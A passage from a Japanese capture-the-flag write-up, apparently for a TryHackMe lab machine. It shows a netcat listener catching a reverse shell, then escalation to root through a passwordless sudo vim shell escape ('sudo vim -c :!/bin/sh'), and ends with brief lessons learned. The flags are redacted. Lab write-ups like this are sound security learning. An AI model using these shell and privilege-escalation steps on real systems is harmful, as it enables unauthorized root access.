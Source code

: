 リバースシェル取得成功。

```shell
$ nc -nvlp 8888   
listening on [any] 8888 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.108.81] 56560
$ 
```

ユーザーフラグゲット

```shell
adrian@ip-10-10-108-81:~$ cat ./user.txt 
THM{.......................................}
```

## 権限昇格２

```shell
adrian@ip-10-10-108-81:~$ sudo -l
Matching Defaults entries for adrian on ip-10-10-108-81:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on ip-10-10-108-81:
    (root) NOPASSWD: /usr/bin/vim
```

vim に sudo が付いている。これは楽勝。

```shell
adrian@ip-10-10-108-81:~$ sudo vim -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
```

```shell
# cat /root/root.txt
THM{.................................}
```

## 振り返り

- Reverse Tab Nabbing は初見。勉強になる。
- ディレクトリサーチで見つかったディレクトリは、アクセス可能だろうがなんだろうが必ず機械的にディレクトリサーチをかけること。
